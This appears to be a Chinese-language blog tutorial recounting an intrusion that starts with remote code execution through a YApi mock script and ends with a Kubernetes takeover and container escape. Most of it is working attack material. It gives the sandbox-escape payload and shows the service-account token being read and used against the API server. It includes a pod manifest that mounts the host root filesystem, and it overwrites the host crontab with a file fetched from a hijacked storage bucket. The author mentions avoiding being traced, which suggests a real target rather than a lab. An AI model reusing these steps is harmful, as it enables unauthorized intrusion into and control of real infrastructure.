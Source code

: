 #  RCE进入内网接管k8s并逃逸进xx网-实战科普教程(一)   
 实战安全研究   2023-10-14 18:52  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/ofBa42GG7Shb736Qree8xzh3FalD631YYibvXXL5XzxAqPibEviaiaT2t9PxYxUvXbXfo1ibrCLEsawHjHxbvvr8AUg/640?wx_fmt=gif "")  
  
苏格拉李说过：三分靠技术，七分靠运气  
  
一次运气不错的内网之行～  
  
故事从一个可以注册的yapi说起  
  
            
  
![](https://mmbiz.qpic.cn/mmbiz_png/ofBa42GG7SgfNyicKPUIpQhlM6ZkqY3VGzBveiaReprKXjpu2ibRf8I6ibfvibnou4k8gMaWUiakfelXRWT9c7M5nBXg/640?wx_fmt=png "")  
  
  
注册完进去在创建一个mock脚本  
```
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const test = FunctionConstructor('return process')
const process = test()
mockJson = process.mainModule.require("child_process").execSync("ip show & id").toString()
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ofBa42GG7SgfNyicKPUIpQhlM6ZkqY3VGJFiaNvhWWuQRyuuHXiby8LIZ25wgSBO9zgzKRy9qxTjuzpFb5XFEAMeQ/640?wx_fmt=png "")  
  
脚本创建完，在接口处找到这个接口，访问一下，拿到命令执行的回显  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ofBa42GG7SgfNyicKPUIpQhlM6ZkqY3VGQmABQxB9M7rLRUKfPdTWd7RArAEvHcBvp6IG4eapsTTqZgOEQB8IZw/640?wx_fmt=png "")  
  
进来之后，也不敢扫，而且时间也不急，慢工出细活麽 不着急  
  
发现是个docker环境，想了想之前信息收集的时候目标有可能是用在私有云，于是试了下以下命令  
```
df -T
```  
  
  
存在/run/secrets/kubernetes.io，确认是k8s环境，忘了截图，我就拿嘴呲吧  
  
既然是k8s 要要么逃逸要么接管  
  
先看看是不是特权模式  
```
cat /proc/self/status | grep -qi '0000003fffffffff' && echo 'Is privileged mode'|| echo 'Not privileged mode'
```  
  
  
很可惜，不是  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ofBa42GG7SgfNyicKPUIpQhlM6ZkqY3VGAULSGkWXybRnwQ07dbXaf74b5Rk1RWicea8WsupnNScvYHNZ5ekTAwA/640?wx_fmt=png "")  
  
  
那再看看当前pod中默认service-account的权限吧  
```
cat /run/secrets/kubernetes.io/serviceaccount/token
```  
  
  
把一长串token复制出来，用curl命令向apiserver 发送请求  
```
curl -ks -H "Authorization: Bearer XXXXXXXXXX" https://10.x.x.1:6443/api/v1/namespaces/node
```  
  
  
访问成功！是个高权！能搞！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ofBa42GG7SgfNyicKPUIpQhlM6ZkqY3VGtbSJvDWs6LiamRY0sTh2GiankCmOASlibII81kfRdiarFKNwHnUYpjz7Uw/640?wx_fmt=png "")  
  
  
此时我们既可以接管这个k8s也可以逃逸。后续利用方法有很多。  
  
这里打算创建一个恶意pod,将宿主机根目录挂载这个恶意pod里，然后进行逃逸。手法也有很多，比如：  
  
1.  
  
直接使用curl命令访问6443端口部署pod  
  
```
curl -ks -H "Authorization: Bearer $token" -H "Content-Type: application/yaml" -d "$(cat 1.yaml)"https://10.x.x.1:6443/api/v1/namespaces/default/pods/
```  
  
  
2.或者用cdk进行部署  
```
./cdk kcurl default post 'https://10.x.x.1:6443/api/v1/namespaces/default/pods?fieldManager=kubectl-client-side-apply' '{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"11\",\"namespace\":\"default\"},\"spec\":{\"conta此处省略一个yaml文件内容...........       
```  
  
3.再或者直接甩一个kubectl上去，默认访问的就是6443端口，直接apply -f就行  
  
  
这里选择第三种，越简单越好。但是这次目标又不能弹shell,又不能被溯源到IP，刚好前面劫持了目标一个bucket，于是把bukectl扔上去，直接在pod里下载  
  
  
下载完后，再次确认以下当前默认service-account权限  
```
./kubectl auth can-i --list
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ofBa42GG7SgfNyicKPUIpQhlM6ZkqY3VGVCANQYLlpbam58orF1u3cHygNibUIsicBsCBILq6bz9rkHcSJEicQrDVw/640?wx_fmt=png "")  
  
  
你看看！你看看！就很舒服  
  
再看看有多少个pod，重度打码了啊，大家能看懂就好  
```
./kubectl get pod -o wide --all-namespaces
```  
  
  
还行，四百来个 能玩  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ofBa42GG7SgfNyicKPUIpQhlM6ZkqY3VGr4yZIUeHVCBdLH5O95s2CMicblk0QUiaWN9NqvPibpg52d9qBh7gmUM4w/640?wx_fmt=png "")  
  
  
看看有几个节点  
```
./kubectl get nodes --show-labels
```  
  
  
7个节点有3个master节点  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ofBa42GG7SgfNyicKPUIpQhlM6ZkqY3VGibNABPf6aA5Obeg9zIiado8Xucv1fEQEejdlK7xjeXOMuIaN97BeQXFg/640?wx_fmt=png "")  
  
  
查看一下master01节点的污点  
```
kubectl describe node k8s-pro-master01
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ofBa42GG7SgfNyicKPUIpQhlM6ZkqY3VGhMZ9VeMnic3RH5NibP6NNGG22BFNobq3XoEbSykFLuVCQwKn7UiaibYCWA/640?wx_fmt=png "")  
  
  
瞅瞅，这Noexecute和NoSchedule看的人难受  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ofBa42GG7SgfNyicKPUIpQhlM6ZkqY3VGY3Qe3BEkxUr9iaYiat7ZkcfG6yNXJPDzhaTSX2xKHnO67Au6XExNBXGQ/640?wx_fmt=png "")  
  
  
这里说一下，污点效果有三种：  
  
**PreferNoSchedule ：**  
kubernetes 将尽量避免把 Pod 调度到具有该污点的 Node 上，除非没有其他节点可调度  
  
**NoSchedule**  
：kubernetes 将不会把 Pod 调度到具有该污点的 Node 上，但不会影响当前 Node上已存在的Pod  
  
**NoExecute ：**  
kubernetes 将不会把Pod 调度到具有该污点的 Node 上，同时也会将 Node 上已存在的Pod驱离  
  
虽然这种情况下也有办法在master上部署pod，但是要在yaml增加好几行的工作量，我当然是不愿意了于是选择了在当前pod所在的节点上  
  
搞一个简单一点的yaml文件，什么都没加，只把宿主机根目录挂载到名为test的pod的/mnt目录中  
```
apiVersion: v1
kind: Pod
metadata:
  name: test
spec:
  containers:
  - image: nginx
    name: test-container
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
```  
  
  
相同方法扔到bucket中，然后curl回来进行apply  
```
./kubectl apply -f 1.yaml
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ofBa42GG7SgfNyicKPUIpQhlM6ZkqY3VGvtpF93ar5RZXN4fXBeBpfibb23TJ9OmglA6pQO9QZPev7TN9H9Hk8QQ/640?wx_fmt=png "")  
  
在创建的pod中执行个命令看看  
```
./kubectl -n namespace名 exec pod名 --(表示后面的是需要执行的命令，一定要加) ls -alt /mnt
```  
  
  
ok，挂上来了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ofBa42GG7SgfNyicKPUIpQhlM6ZkqY3VGKU2PiaCvibljdqGiaCyXCbFfUTnrW2FopaBLdyicaicDcPELApNCNflp5Cg/640?wx_fmt=png "")  
  
  
df -T看看，一堆布拉布拉的盘  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ofBa42GG7SgfNyicKPUIpQhlM6ZkqY3VGKoh0ECnUWibY97gpiav5Yx8meATicTic2d4AA8TCzOvyiaxs7I8zY4Ia8cA/640?wx_fmt=png "")  
  
  
到了这，要么利用计划任务逃逸，要么写ssh密钥。但是现实情况是不能弹shell，并且我也没有跳板机，没有做代理。  
  
  
于是我准备这样搞，思路如下：  
  
计划任务 定时执行 /mnt/tmp/123.sh文件，结果回显到sectest.result文件  
  
然后每次需要执行什么命令在bucket桶里修改123.sh，最后将123.sh放到宿主机的/tmp/目录里去等待执行  
  
  
说干就干  
  
在这里，我害怕把这台机器的crontab写坏了，所以我先把宿主机的crontab备份了一份，以防万一  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ofBa42GG7SgfNyicKPUIpQhlM6ZkqY3VGdwG78srWdF6sBZXHCqn7Xo5gUU7P2xBIk8s47m54OtXLBL8yL1S64Q/640?wx_fmt=png "")  
  
  
然后第一步就有问题了，echo写计划任务写不进去  
```
./kubectl -n namespace exec test -- echo -e '* * * * * root bash /tmp/123.sh\n' >>/mnt/etc/crontab
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ofBa42GG7SgfNyicKPUIpQhlM6ZkqY3VGZmiahvFh8icbZQf8O8TrYQwlibNX1Obv7pVZh68NEwbR96QoTViaqmHY0w/640?wx_fmt=png "")  
  
  
于是找了一份相同的crontab，本地添加计划任务后，使用curl命令直接-o覆盖宿主机的crontab文件.成功  
```
./kubectl -n namespace exec test -- curl http://xxxx.oss/crontab -o /mnt/etc/crontab
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ofBa42GG7SgfNyicKPUIpQhlM6ZkqY3VGibmwRIziawNW42KcMcMBViczTZRZQFYeyOKKYnKgbM1282Ojp1NCRKiczw/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ofBa42GG7SgfNyicKPUIpQhlM6ZkqY3VG3RaMCnQickpicIC9vHTk4U2RO8icJdj4FhqC6mEh6GFYz78W4pQo1oXlQ/640?wx_fmt=png "")  
  
接着第二步，下载内容为  
```
ifconfig >> /tmp/sectest.result
```  
  
  
的123.sh文件放到宿主机的tmp目录下。图上的ifconig都打错了，救命。还好问题不大，后来改回来了。成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ofBa42GG7SgfNyicKPUIpQhlM6ZkqY3VGLur4ibBT1ykY72ibicLgw9Rhq3HE4lA8icekRCBQsDGJOiadH7oxYSAnycw/640?wx_fmt=png "")  
  
  
第三步，等待查看执行结果。成功。大概看了一下，乱七八糟的物理、虚拟网卡有二三十个  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ofBa42GG7SgfNyicKPUIpQhlM6ZkqY3VGhqCWSeUA64Y7DfTwOrfhsh9dqAf9JSLsrQJFJtv76pHuMjC3K909iaA/640?wx_fmt=png "")  
  
  
到了这，又要开始新的一轮渗透了，一个大内网在等着我，具体情况下回再分解～  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/ofBa42GG7Shb736Qree8xzh3FalD631YQ8lcv4ZictUgmkAsBng285CXdibI5oJSYGQnZFhxrqeiakKhMTedWMhwA/640?wx_fmt=jpeg "")  
  
